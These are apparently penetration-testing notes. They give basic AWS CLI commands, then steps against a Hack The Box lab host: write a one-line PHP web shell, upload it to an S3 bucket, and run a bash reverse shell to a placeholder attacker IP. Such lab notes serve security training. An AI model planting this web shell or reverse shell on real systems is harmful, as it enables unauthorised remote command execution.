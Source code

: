 # `awscli`

Is the official command-line interface (CLI) provided by Amazon Web Services (AWS). It allows users to interact with various AWS services directly from the command line
Used to interact with AWS servers, domains, and S3 buckets.

### To execute commands on an endpoint
aws --endpoint=<hostname> <type> <command>

### List S3 Buckets
aws s3 ls

### Create an EC2 Instance
aws ec2 run-instances --image-id ami-xxxxxxxx --instance-type t2.micro --key-name MyKeyPair

### List EC2 Instances
aws ec2 describe-instances

### Configure AWS CLI
aws configure






##Reverse Shell in AWS S3

If an AWS bucket is found, you can upload a script to execute commands on it.

### 1. Create a PHP script that executes commands
echo '<?php system($_GET["cmd"]); ?>' > shell.php


### 2. Upload the script to the bucket
aws --endpoint={url} s3 cp shell.php s3://thetoppers.htb


### 3. Create a reverse shell script and listen on your machine
Reverse shell script
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1
